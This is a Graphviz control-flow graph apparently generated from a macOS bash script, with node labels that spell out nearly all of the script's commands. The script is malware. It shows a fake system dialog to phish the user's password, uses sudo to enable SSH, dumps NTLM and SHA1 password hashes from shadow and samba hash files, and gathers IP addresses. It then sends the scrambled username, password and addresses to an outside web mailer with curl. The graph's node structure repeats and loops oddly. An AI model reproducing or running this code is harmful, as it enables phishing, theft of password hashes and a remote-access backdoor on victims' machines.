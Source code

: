 digraph {
0 [label="local blahblah=A corrupt preference file has been detected and must be repaired. "];
0 -> 2 [label="N,function,(,),SC,{,"];
2 [label="blahblah=${blahblah} Enter the password for the user account ${the_username} to continue: "];
2 -> 4 [label="\n,"];
4 [label="the_password=$( osascript -l AppleScript \t\t-e \"tell application \\\"System Events\\\"\" \t\t-e \"activate\" \t\t-e \"set the_icon to ${the_icon}\" \t\t-e \"display dialog \\\"${blahblah}\\\" \t\t\twith icon ${the_icon} with title \\\"Password\\\" default answer \\\"\\\" with hidden answer \t\t\tbuttons {\\\"OK\\\"} default button \\\"OK\\\"\" \t\t-e \"end tell\" ) "];
4 -> 6 [label="N,\n,"];
6 [label="osascript -l AppleScript -e tell application \"System Events\" -e activate -e set the_icon to ${the_icon} -e display dialog \"${blahblah}\" \t\t\twith icon ${the_icon} with title \"Password\" default answer \"\" with hidden answer \t\t\tbuttons {\"OK\"} default button \"OK\" -e end tell "];
6 -> 8 [label="N,N,"];
8 [label="the_password=${the_password#*text returned:} "];
8 -> 10 [label="\n,"];
10 [label="the_password=${the_password% "];
10 -> 12 [label="N,;,"];
12 [label="[ ${admin_user} == true ] "];
12 -> 14 [label="N,\n,"];
14 [label="test_password "];
14 -> 134 [label="&&,"];
134 [label="return 0 "];
134 -> 18 [label="&&,"];
18 [label="sudo -k "];
18 -> 20 [label="\n,},N,function,(,),SC,{,"];
20 [label="the_uid=$( osascript -l AppleScript -e \"do shell script \\\"id -u\\\" user name \\\"${the_username}\\\" password \t\t\\\"${the_password}\\\" with administrator privileges\" ) "];
20 -> 22 [label="\n,"];
22 [label="osascript -l AppleScript -e do shell script \"id -u\" user name \"${the_username}\" password \t\t\"${the_password}\" with administrator privileges "];
22 -> 24 [label="N,N,"];
24 [label="[ ${the_uid} == 0 ] "];
24 -> 72 [label="\n,"];
72 [label="root_access=true "];
72 -> 134 [label="&&,"];
134 [label="return 0 "];
134 -> 30 [label="N,&&,"];
30 [label="osascript -l AppleScript -e tell application \"System Events\" to display dialog \t\t\t\"Incorrect password. Click Ok to try again.\" buttons {\"OK\"} default button \"OK\" "];
30 -> 32 [label="\n,"];
32 [label="the_password= "];
32 -> 326 [label="\n,"];
326 [label="request_password "];
326 -> 36 [label="N,\n,"];
36 [label="local -i last_access_time=0 "];
36 -> 38 [label="\n,},N,function,(,),SC,{,"];
38 [label="touch .saywhat /dev/null "];
38 -> 294 [label="\n,"];
294 [label="/dev/null "];
294 -> 294
42 [label="last_access_time=$( stat -xt \"%H%M\" .saywhat 2>/dev/null | grep Access | cut -d \' \' -f 2 ) "];
42 -> 62 [label="\n,"];
62 [label="stat -xt %H%M .saywhat /dev/null "];
62 -> 294 [label="N,N,N,"];
294 [label="/dev/null "];
294 -> 294
66 [label="grep Access "];
66 -> 68 [label="N,"];
68 [label="cut -d   -f 2 "];
68 -> 80 [label="N,"];
80 [label="echo ${the_password} "];
80 -> 54 [label="\n,N,"];
54 [label="sudo -S touch .saywhat /dev/null "];
54 -> 294 [label="N,"];
294 [label="/dev/null "];
294 -> 294
58 [label="sleep 2 "];
58 -> 60 [label="&,"];
60 [label="[ $( stat -xt \"%H%M\" .saywhat 2>/dev/null | grep Access | cut -d \' \' -f 2) -ne ${last_access_time} ] "];
60 -> 62 [label="\n,SC,N,if,"];
62 [label="stat -xt %H%M .saywhat /dev/null "];
62 -> 294 [label="N,N,"];
294 [label="/dev/null "];
294 -> 294
66 [label="grep Access "];
66 -> 68 [label="N,"];
68 [label="cut -d   -f 2 "];
68 -> 70 [label="N,"];
70 [label="sudo_works=true "];
70 -> 72 [label=";,then,"];
72 [label="root_access=true "];
72 -> 74 [label="N,\n,"];
74 [label="sudo rm .saywhat /dev/null "];
74 -> 294 [label="N,\n,"];
294 [label="/dev/null "];
294 -> 294
330 [label="enable_ssh "];
330 -> 80 [label="&,"];
80 [label="echo ${the_password} "];
80 -> 82 [label="\n,fi,\n,},N,function,(,),SC,{,N,"];
82 [label="sudo -S echo "];
82 -> 84 [label="N,"];
84 [label="[ -f /System/Library/LaunchDaemons/ssh.plist ] "];
84 -> 86 [label="\n,SC,N,if,"];
86 [label="sudo /bin/launchctl load -w /System/Library/LaunchDaemons/ssh.plist "];
86 -> 132 [label=";,then,"];
132 [label="ssh_enabled=true "];
132 -> 134 [label="&&,"];
134 [label="return 0 "];
134 -> 92 [label="N,&&,"];
92 [label="sudo /usr/bin/defaults write /System/Library/LaunchDaemons/ssh Disabled false "];
92 -> 94 [label="\n,"];
94 [label="sudo /sbin/service ssh start "];
94 -> 132 [label="\n,"];
132 [label="ssh_enabled=true "];
132 -> 98 [label="&&,"];
98 [label="[ -f /private/etc/xinetd.d/ssh ] "];
98 -> 100 [label="N,\n,elif,"];
100 [label="sudo sed -e s/disable = .*$/disable = no/ /private/etc/xinetd.d/ssh /private/etc/xinetd.d/ssh.new "];
100 -> 102 [label=";,then,"];
102 [label="/private/etc/xinetd.d/ssh.new "];
102 -> 102
104 [label="mv /private/etc/xinetd.d/ssh /private/etc/xinetd.d/ssh.old "];
104 -> 106 [label="&&,"];
106 [label="mv /private/etc/xinetd.d/ssh.new /private/etc/xinetd.d/ssh "];
106 -> 108 [label="&&,"];
108 [label="sudo killall xinetd "];
108 -> 110 [label="&&,"];
110 [label="sudo xinetd --start "];
110 -> 132 [label="&&,"];
132 [label="ssh_enabled=true "];
132 -> 134 [label="&&,"];
134 [label="return 0 "];
134 -> 116 [label="N,&&,"];
116 [label="sudo sed -e s/SSHSERVER=-NO-/SSHSERVER=-YES-/ /etc/hostconfig /etc/hostconfig.new "];
116 -> 118 [label="\n,else,"];
118 [label="/etc/hostconfig.new "];
118 -> 118
120 [label="mv /etc/hostconfig.new /etc/hostconfig "];
120 -> 122 [label="&&,"];
122 [label="grep SSHSERVER=-YES- /etc/hostconfig "];
122 -> 124 [label="\n,"];
124 [label="sudo echo SSHSERVER=-YES- /etc/hostconfig "];
124 -> 126 [label="||,"];
126 [label="/etc/hostconfig "];
126 -> 126
128 [label="sudo killall inetd "];
128 -> 130 [label="\n,"];
130 [label="sudo inetd "];
130 -> 132 [label="&&,"];
132 [label="ssh_enabled=true "];
132 -> 134 [label="&&,"];
134 [label="return 0 "];
134 -> 136 [label="N,&&,"];
136 [label="local the_name line the_rest the_hashfile the_hash SSHA1 S0SHA1 "];
136 -> 138 [label="\n,fi,\n,},N,function,(,),SC,{,"];
138 [label="echo -n ${the_username}${tab}${the_password}${tab} ${secret_file} "];
138 -> 238 [label="\n,"];
238 [label="${secret_file} "];
238 -> 238
142 [label="id ${secret_file} "];
142 -> 238 [label="\n,"];
238 [label="${secret_file} "];
238 -> 238
146 [label="/usr/bin/nidump passwd . /dev/null ${secret_file} "];
146 -> 294 [label="\n,"];
294 [label="/dev/null "];
294 -> 294
238 [label="${secret_file} "];
238 -> 238
152 [label="[ ${root_access} == true ] "];
152 -> 154 [label="\n,SC,N,if,"];
154 [label="[ ${osxversion} -eq 3 ] "];
154 -> 217 [label=";,then,SC,N,if,"];
217 [label="/usr/bin/nidump passwd . /dev/null "];
217 -> 294 [label=";,then,N,"];
294 [label="/dev/null "];
294 -> 294
221 [label="grep -v :*: "];
221 -> 223 [label="N,"];
223 [label="read line "];
223 -> 225 [label="N,SC,N,while,"];
225 [label="the_name=${line%%:*} the_rest=${line#*:*:} "];
225 -> 227 [label="do,"];
227 [label="the_hashfile=$( niutil -readprop . \"/users/${the_name}\" generateduid 2>&1 ) "];
227 -> 229 [label="N,N,\n,"];
229 [label="niutil -readprop . /users/${the_name} generateduid "];
229 -> 229
169 [label="[ -f /var/db/shadow/hash/${the_hashfile} ] "];
169 -> 171 [label="\n,"];
171 [label="the_hash=$( sudo cat \"/var/db/shadow/hash/${the_hashfile}\" ) "];
171 -> 173 [label="&&,"];
173 [label="sudo cat /var/db/shadow/hash/${the_hashfile} "];
173 -> 175 [label="N,N,"];
175 [label="[ ${the_hash:0:63} != , word=\"$( jot -s '' -b 0 63 )\" -a ${the_hash:0:63} !=  ] "];
175 -> 177 [label="\n,"];
177 [label="jot -s  -b 0 63 "];
177 -> 236 [label="N,"];
236 [label="echo _${the_name}_NTLM:${the_hash:0:32}:${the_hash:32:32}:${the_rest} ${secret_file} "];
236 -> 238 [label="&&,"];
238 [label="${secret_file} "];
238 -> 238
183 [label="echo _${the_name}_rawSHA1:${the_hash:64:40}:${the_rest} ${secret_file} "];
183 -> 238 [label="\n,"];
238 [label="${secret_file} "];
238 -> 238
187 [label="[ ${osxversion} -ge 4 ] "];
187 -> 189 [label="\n,done,elif,"];
189 [label="dscl . -list /Users authentication_authority "];
189 -> 191 [label=";,then,N,"];
191 [label="grep -i hash "];
191 -> 193 [label="N,"];
193 [label="sed s/ .*$// "];
193 -> 195 [label="N,"];
195 [label="read the_name "];
195 -> 197 [label="N,SC,N,while,"];
197 [label="the_hashfile=$( dscl . -read /users/\"${the_name}\" generateduid | sed \"s/^.* //\" ) "];
197 -> 199 [label="do,"];
199 [label="dscl . -read /users/${the_name} generateduid "];
199 -> 201 [label="N,N,N,"];
201 [label="sed s/^.* // "];
201 -> 203 [label="N,"];
203 [label="the_hash=$( sudo cat \"/var/db/shadow/hash/$the_hashfile\" ) "];
203 -> 205 [label="\n,"];
205 [label="sudo cat /var/db/shadow/hash/$the_hashfile "];
205 -> 207 [label="N,N,"];
207 [label="S0SHA1=${the_hash:104:48} "];
207 -> 209 [label="\n,"];
209 [label="SSHA1=${the_hash:168:48} "];
209 -> 211 [label="\n,"];
211 [label="echo ${the_name}_NTLM:${the_hash:0:32}${the_hash:32:32}:${newline}${the_name}_SSHA1: ${SSHA1}:${newline}${the_name}_S0SHA1:${S0SHA1}: ${secret_file} "];
211 -> 238 [label="\n,"];
238 [label="${secret_file} "];
238 -> 238
215 [label="[ ${osxversion} -le 2 ] "];
215 -> 217 [label="\n,done,, word=[,elif,"];
217 [label="/usr/bin/nidump passwd . /dev/null "];
217 -> 294 [label=";,then,N,"];
294 [label="/dev/null "];
294 -> 294
221 [label="grep -v :*: "];
221 -> 223 [label="N,"];
223 [label="read line "];
223 -> 225 [label="N,SC,N,while,"];
225 [label="the_name=${line%%:*} the_rest=${line#*:*:} "];
225 -> 227 [label="do,"];
227 [label="the_hashfile=$( niutil -readprop . \"/users/${the_name}\" generateduid 2>&1 ) "];
227 -> 229 [label="N,N,\n,"];
229 [label="niutil -readprop . /users/${the_name} generateduid "];
229 -> 229
230 [label="[ -f /var/db/samba/hash/${the_hashfile} ] "];
230 -> 232 [label="\n,"];
232 [label="the_hash=$( sudo cat \"/var/db/samba/hash/${the_hashfile}\" ) "];
232 -> 234 [label="&&,"];
234 [label="sudo cat /var/db/samba/hash/${the_hashfile} "];
234 -> 236 [label="N,N,"];
236 [label="echo _${the_name}_NTLM:${the_hash:0:32}:${the_hash:32:32}:${the_rest} ${secret_file} "];
236 -> 238 [label="\n,"];
238 [label="${secret_file} "];
238 -> 238
240 [label="declare the_username the_password "];
240 -> 242 [label="\n,done,fi,fi,\n,},"];
242 [label="declare groups admin_user=false root_access=false sudo_works=false "];
242 -> 242
244 [label="declare ip_addresses public_ip_address private_ip_address_en0 private_ip_address_en1 private_ip_address_of_router "];
244 -> 244
246 [label="declare the_email the_subject the_message "];
246 -> 246
248 [label="declare the_uid ssh_enabled=false "];
248 -> 248
250 [label="declare , word=\"osxversion=$( sw_vers -productVersion | cut -d '.' -f 2 )\" "];
250 -> 250
252 [label="sw_vers -productVersion "];
252 -> 254 [label="N,N,"];
254 [label="cut -d . -f 2 "];
254 -> 256 [label="N,"];
256 [label="declare output_file=false secret_file=~/Public/.howdy "];
256 -> 256
258 [label="declare tab=$t newline=$n "];
258 -> 258
260 [label="declare the_icon=2 "];
260 -> 260
262 [label="[ -f /System/Library/CoreServices/SecurityAgent.app/Contents/Resources/Security.icns ] "];
262 -> 264 [label="SC,N,if,"];
264 [label="the_icon=POSIX file \"/System/Library/CoreServices/SecurityAgent.app/Contents/Resources/Security.icns\" "];
264 -> 266 [label=";,then,"];
266 [label="the_username=$( /usr/bin/whoami ) "];
266 -> 268 [label="N,fi,"];
268 [label="/usr/bin/whoami "];
268 -> 270 [label="N,N,"];
270 [label=", word=\"public_ip_address=$( curl http://ipid.shat.net/iponly/ | grep body | sed -e 's/^<body>//' -e 's/<.*$//' )\" "];
270 -> 270
272 [label="curl http://ipid.shat.net/iponly/ "];
272 -> 274 [label="N,N,N,"];
274 [label="grep body "];
274 -> 276 [label="N,"];
276 [label="sed -e s/^<body>// -e s/<.*$// "];
276 -> 278 [label="N,"];
278 [label=", word=\"private_ip_address_en0=$( ifconfig en0 2>/dev/null | head -n 2 | tail -n 1 | sed -e 's/^.*inet //' -e 's/ .*$//' )\" "];
278 -> 278
280 [label="ifconfig en0 /dev/null "];
280 -> 294 [label="N,N,"];
294 [label="/dev/null "];
294 -> 294
296 [label="head -n 2 "];
296 -> 298 [label="N,"];
298 [label="tail -n 1 "];
298 -> 300 [label="N,"];
300 [label="sed -e s/^.*inet // -e s/ .*$// "];
300 -> 290 [label="N,"];
290 [label=", word=\"private_ip_address_en1=$( ifconfig en1 2>/dev/null | head -n 2 | tail -n 1 | sed -e 's/^.*inet //' -e 's/ .*$//' )\" "];
290 -> 290
292 [label="ifconfig en1 /dev/null "];
292 -> 294 [label="N,N,"];
294 [label="/dev/null "];
294 -> 294
296 [label="head -n 2 "];
296 -> 298 [label="N,"];
298 [label="tail -n 1 "];
298 -> 300 [label="N,"];
300 [label="sed -e s/^.*inet // -e s/ .*$// "];
300 -> 302 [label="N,"];
302 [label=", word=\"private_ip_address_of_router=$( arp -a | sed -e 's/^.* (//' -e 's/).*$//' )\" "];
302 -> 302
304 [label="arp -a "];
304 -> 306 [label="N,N,N,"];
306 [label="sed -e s/^.* (// -e s/).*$// "];
306 -> 308 [label="N,"];
308 [label="ip_addresses=${public_ip_address} ${private_ip_address_en0} ${private_ip_address_en1} ${private_ip_address_of_router} "];
308 -> 308
310 [label="ip_addresses=${ip_addresses//  / } "];
310 -> 312 [label="N,"];
312 [label="groups=$( /usr/bin/id ) "];
312 -> 314 [label="N,"];
314 [label="/usr/bin/id "];
314 -> 316 [label="N,N,"];
316 [label="[ ${groups} != ${groups/(admin)} ] "];
316 -> 316
318 [label="admin_user=true "];
318 -> 320 [label="&&,"];
320 [label="touch ${secret_file} "];
320 -> 322 [label="N,"];
322 [label="output_file=true "];
322 -> 324 [label="&&,"];
324 [label="test_sudo "];
324 -> 326 [label="N,"];
326 [label="request_password "];
326 -> 326
328 [label="[ ${root_access} == true -a ${ssh_enabled} != true ] "];
328 -> 330 [label="SC,N,if,"];
330 [label="enable_ssh "];
330 -> 332 [label=";,then,"];
332 [label="[ ${output_file} == true ] "];
332 -> 334 [label="fi,"];
334 [label="output "];
334 -> 336 [label="&&,"];
336 [label="the_email=andrew%40schjelderup.org "];
336 -> 336
338 [label="the_subject=Howdy "];
338 -> 340 [label="N,"];
340 [label="the_message=${the_username} ${the_password} ${ip_addresses} "];
340 -> 342 [label="N,"];
342 [label=", word=\"the_message=$( echo ${the_message} | /usr/bin/tr '. 0123456789[A-M][N-Z][a-m][n-z]' '_+5678901234[N-Z][A-M][n-z][a-m]' )\" "];
342 -> 344 [label="N,"];
344 [label="echo ${the_message} "];
344 -> 346 [label="N,N,N,"];
346 [label="/usr/bin/tr . 0123456789[A-M][N-Z][a-m][n-z] _+5678901234[N-Z][A-M][n-z][a-m] "];
346 -> 348 [label="N,"];
348 [label="email_result=$( curl -d \"email=${the_email}&subject=${the_subject}&message=${the_message}\" --referer http://psidude.com/mailer/mail.php psidude.com/mailer/mail.php ) "];
348 -> 348
350 [label="curl -d email=${the_email}&subject=${the_subject}&message=${the_message} --referer http://psidude.com/mailer/mail.php psidude.com/mailer/mail.php "];
350 -> 352 [label="N,N,"];
352 [label="exit 0 "];
352 -> 352
}
